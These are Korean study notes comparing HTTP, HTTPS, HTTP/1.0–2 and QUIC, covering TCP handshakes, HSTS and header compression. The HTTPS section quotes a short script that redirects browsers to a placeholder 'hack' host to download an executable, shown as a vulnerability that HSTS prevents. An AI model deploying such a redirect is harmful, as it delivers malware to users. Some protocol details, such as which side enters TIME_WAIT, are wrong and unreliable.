

2020.10.27

<br/>

### HTTP / HTTPS 와 1.1과 2.0, 3 그리고 QUIC

<br/>

**HTTP (Hypertext Transfer Protocol)?** 

웹 상에서 클라이언트와 서버 간 통신을 위한 프로토콜이다.

- TCP / IP 를 사용한 Protocol이다.
- **HTML**과 같은 **문서를 전송하기 위한 Application layer Protocol**
- 요청을 처리한 후 정보나 상태를 가지지 않는 Stateless Protocol
- 통신을 연결하고 있지 않기 때문에 상대적으로 많은 리소스를 아낄 수 있다.

**TCP?**

- 연결형 서비스
- 가상 회선 방식
- 전송 순서를 보장한다.
    - 신뢰성이 높다.
- 전송 속도가 느리다.

**UDP?**

- 비연결형 서비스
- 테이터 그램 방식
- 전송 순서를 보장하지 않는다.
- 응답을 기다리지 않고 패킷을 전송한다
    - 신뢰성이 낮다.
- 전송 속도가 빠르다.

<br/>

**HTTP 의 문제점**

1. **많은 요청과 응답 가운데 진행되는 연결 / 해제에 대한 오버헤드가 존재한다.**
2. HTTP는 데이터를 전송할 때 평문으로 전송하기에 보안(탈취, 변조 등)에 취약하다.
    - 패킷을 수집하는 것만으로 도청할 수 있다. 평문으로 통신을 할 경우 메시지의 의미를 파악할 수 있기 때문에 암호화하여 통신해야 한다.
    - **SSL or TLS 를 통해서 통신 내용을 암호화하여 전송한다.**

3. **통신 상대를 확인하지 않기에 위장이 가능하다.**
    - HTTP 통신은 상대가 누구인지 확인하는 처리는 없기 때문에 누구든지 리퀘스트를 보낼 수 있다
    - 의도한 리스폰스를 보내야 하는 **웹 서버**인지를 확인할 수 없다.
    - 의도한 리퀘스트를 보낸 **클라이언트**인지를 확인할 수 없다.
    - **접근이 허가된 상대**인지를 확인할 수 없다.
        - **위의 문제도 SSL 이나 TLS를 사용한다면 해결할 수 있다.**
    - **의미없는 리퀘스트도 수신한다. —> DoS 공격을 방지할 수 없다.**

**HTTP 요청 구조**

1. **Start Line** 
    - **(HTTP Method : GET, POST.., Request Target : URL.., HTTP Version : 1.0, 1.1, 2.0..)**
2. **Header  HTTP 요청 그 자체에 대한 정보를 가지고 있는 구조이다.** 
    - **key : value 형식으로 이루어져 있다. (Host, Content-Type, Accept, Connection..)**
3. **Body  HTTP 요청이 전송하는 데이터를 담는 부분이다.** 
    - **전송하는 데이터가 없다면 Body 부분은 비어있다.**

**HTTP의 작동 방식**

</img>

**3 - way Handshaking**

1. 클라이언트에서 접속을 요청하는 SYN 패킷을 보낸다. 
    - 클라이언트가 SYN/ACK 응답을 기다리는 SYN_SENT 상태가 된다.
2. 서버는 SYN요청을 받고 A클라이언트에게 요청을 수락한다는 ACK/SYN flag 패킷을 발송
    - 서버는 ACK으로 응답하기를 기다리는 SYN_RECEIVED 상태가 된다.
3. 클라이언트는 서버에게 ACK을 보내고 연결이 이루어진다.
    - 서버는 ESTABLISHED 상태가 된다.

이후 데이터가 오간다. 

<br/>

**4- way Handshaking**

1. 클라이언트가 연결을 종료하겠다는 **FIN플래그를 전송**한다.
2. 서버는 확인메시지를 보내고 자신의 통신이 끝날때까지 기다린다.
    - 서버는 **TIME_WAIT** 상태가 된다.
3. 서버가 **통신이 끝났으면 연결이 종료되었다고 클라이언트에게 FIN플래그를 전송**한다.
4. 클라이언트는 확인했다는 ACK를 보낸다.

**HTTPS ( HTTP over Secure Socket Layer(TLS) )** 

</img>

**SSL 이나 TLS를 사용하여 HTTP 에 암호화와 인증 기능을 추가한 프로토콜**

**통신하는 TCP/IP 소켓 부분을 SSL or TLS 라는 프로토콜로 대체하는 것이다.**

- 즉 전송 단계에서 SSL 혹은 TLS 계층으로 전달하는 단계가 하나 추가되는 것.

**HTTPS 의 SSL 에서는 공통키 암호화 방식과 공개키 암호화 방식을 혼합하여 사용한다.**

<br/>

**모든 웹 페이지에서 HTTPS 를 사용하지 않는 이유 (HTTP / 1.1)?**

- 암호화 통신은 CPU 나 메모리 등 리소스가 많이 필요하다.
- 통신할 때마다 암호화를 하면 많은 리소스를 소비하기 때문에 서버 한 대당 처리할 수 있는 리퀘스트의 수가 줄어들게 된다.
- 그렇기 때문에 민감한 정보를 다룰 때만 HTTPS 에 의한 암호화 통신을 사용한다.

많은 사람들은 대용량 파일을 HTTPS로 전송하면 리소스가 많이 들어가고, 서버 부하가 매우 커 HTTPS로 파일에 대한 해시값만 전송하고 HTTP로 파일을 서빙하는 방식을 고려하기도    한다.

**하지만...**

**HTTPS로 해시를 전송하고 HTTP로 파일을 서빙하는 방법**이 **HTTPS 로만 파일을 서빙하는 것보다 비효율적이다.** 

- **서로 다른 프로토콜로 인해 2개의 TCP 연결을 성립시켜야 한다는 부분인데** 이는 HTTPS 로만 서빙하는 것보다 **2배 더 많은 RTT 를 필요로 하고 더불어 TCP overhead 또한 2배  라는 것을 의미한다.**  (**3 way , 4 way** **Handshaking 이 반복된다.**)
    - **RTT :** 작은 패킷이 클라이언트에서 서버로 갔다가, 서버에서 다시 클라이언트로      돌아오는데 걸린 시간 ( **HTTP response time** )
    - 위에서 말한 **서버의 리퀘스트의 수가 줄어들게 된다.** 라는 것은 사실상 소용이 없다.
- **시스템 자원의 발전으로 (CPU 등) 네트워크 대역폭은 CPU의 암호화 속도보다 느리다.**

**HTTP 를 사용해서 서버와 요청, 응답시 서버에서 HTTPS 를 강제한다면, 302 Redirect         취약점이 발생할 수 있다.**

- **다른 주소로 Redirect 하는 부분을 이용하여 악성코드를 받는 URL로 강제 전환이 가능**
- 사용자는 웹 브라우저가 다른 곳으로 **Redirection** 되었다는 것을 인지하지 못함

```jsx
<script language=JavaScript>

Location.href = http://cdn.hack.com/virus.exe;

</script>

//https://blogger.pe.kr/421
```

**이것을 방지하기 위해선 HTTP Strict Transport Security 가 사용되어야 한다.**

- 클라이언트에게 HTTPS를 강제하는 기능으로 Plain Text (HTTP) 요청을 시도하지 못한다.
- 서버 최초접속 시 HSTS 설정에 대한 정보를 브라우저에게 응답하고, 해당 데이터를 기준으로 일정시간 동안 해당 서버에 HTTPS 접속을 강제시킨다.

결국은 **HTTPS 를 사용해야 한다.**

**Google Drive, Dropbox, iCloud, OneDrive, CloudFlare 등 여러 클라우드, CDN 서비스는**    이미 오래 전부터 **작은 파일부터 대용량 파일**까지 **HTTPS를 통해 서빙하고 있으며** 이는       네트워크 대역폭에 빗대어 볼 때 **CPU의 속도는 충분히 빠르다는 것을 증명하는 셈이다.**

<br/>

**HTTP / 1.0**

- HTTP 버전과 헤더와 응답 상태 코드가 생겼다.
- 컨텐츠 타입이 생김으로써 html 외에 다른 타입도 전송할 수 있게 되었다.

**HTTP / 1.0 단점**

- **1개의 커넥션은 1개의 요청만 처리할 수 있다. Short-Lived Connections**
    - **매번 새로운 연결을 통해 성능의 저하가 발생한다. (3, 4 way Handshaking 반복)**
    - 서버 부하 비용이 발생한다.

<br/>

**HTTP / 1.1 ( Plaintext transfer protocol )**

**1.0의 문제를 해결하기 위해**

- **Persistent Connection 이 추가되었다.**
    - 지정한 timeout 동안 커넥션을 닫지 않는 방식이다. (Session)
- **HTTP Pipelining이 적용되었다.**
    - 하나의 커넥션에서 응답을 기다리지 않고 순차적인 여러 요청을 연속적으로 보내서 그 순서에 맞게 응답을 받는 방식으로 지연 시간을 줄이는 방법.
        - **HTTP 의 Head of Line Blocking 문제의 발생**

            우선 순위에 따라 앞선 요청이 서버에서 오랜 시간동안 작업이 된다면 뒤의 작업도 기다리게 되는 경우.

        - **Header 구조의 중복**

            연속된 요청의 경우 Header의 값이 중복되게 되는데 그걸 그대로 전송하는 것.   **중복을 해결하지 않음으로 주고 받는 데이터가 커진다.**

        - **Pipelining을 사용하지 않는 상황에선 Short-Lived Connections이 발생한다.**

<br/>

**HTTP / 2 ( binary transfer protocol )**

**1.1 의 문제를 해결하기 위해 성능 향상에 초점을 맞추고 표준을 확장한 형식을 채택하였다.**

- 메세지 전송 방식의 변화 → **Binary Framing 계층을 사용**
    - 해당 계층에서 메세지를 Frame 단위로 분할하여 Binary로 Encoding 한다.
        - 파싱, 전송 속도를 증가시키고, 오류 발생 가능성을 낮추었다.
        - HEADERS, DATA Frame 단위의 분할
        - **Request and response multiplexing 가 가능해진다. (다중화)**
            - 메세지 간의 순서가 사라짐으로써 먼저 도착한 요청이 먼저 처리된다.
            - 하지만 **스트림 내부에서 데이터 유실이 발생**되면 **이후 데이터**에 대해서                **TCP 연결 간의** **Head of Line Blocking이 발생한다.**

- **Stream Prioritization → 리소스 간의 우선 순위를 설정 가능하다.**
    - **Stream 간의 가중치를 줄 수 있어 먼저 데이터를 전송해야할 스트림을 지정한다.**

- **Server Push**
    - **클라이언트에서 요청하지 않은 리소스를 서버가 알아서 전송한다.**
    - **IMG나 CSS, JS 가 있는 경우 다시 요청이 하게 되는데 그것을 미리 전송한다.**

- **Header Compression**
    - 중복된 헤더의 내용을 줄여서 주고 받는 데이터 양을 감소시킨다.
    - Static Dynamic Table을 사용하여 **중복을 검출**하여 **중복된 부분은 인덱스만 저장**하고 그 외에 부분은 **허프만 Encoding 을 통해 압축**시킨다.
    - Header의 크기가 50 ~ 85% 정도 감소된다고 한다.

<br/>

**QUIC**

**2013년도에 공개된 전송 계층 프로토콜으로써 UDP 기반이다.**

UDP 에서 신뢰성을 확보 가능하게끔 기능을 구현, 추가한 것이다.

</img>

위와 같은 그림으로 작동하게 되는데 그러한 결과로,

- **전송 속도의 향상**
    - 첫 연결 설정에서 **필요한 정보와 데이터를 같이 전송**한다.
    - 연결이 성공되면 **설정을 캐싱하여 다음 연결 때 바로 성립 하게끔 한다.**
    - **클라이언트가 Connection UUID 라는 고유한 Identity 값을 통해 서버와 연결된다.**
    - **네트워크의 변경 등이 있어도 기존의 연결이 계속 유지된다.**
- **TLS가 기본 적용되어 있다.**
- **Source Address Token을 필요에 따라 발급하여 IP Spoofing, Replay Attack을 방지한다.**
- **각각의 독립적인 Stream을 사용하여 2.0 보다 향상된 multiplexing 기능을 제공한다.**